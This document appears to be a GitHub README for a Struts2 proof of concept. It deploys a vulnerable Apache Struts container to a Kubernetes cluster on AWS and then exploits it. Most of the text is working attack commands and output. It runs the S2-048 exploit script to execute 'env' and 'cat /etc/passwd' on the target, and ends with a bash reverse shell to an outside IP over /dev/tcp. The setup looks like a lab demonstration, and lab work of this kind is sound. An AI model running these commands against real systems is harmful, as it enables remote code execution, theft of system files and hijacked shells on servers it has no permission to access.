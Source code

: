 # struts_poc  
![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  
  

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 
  

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
     
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  

`python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`


![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)


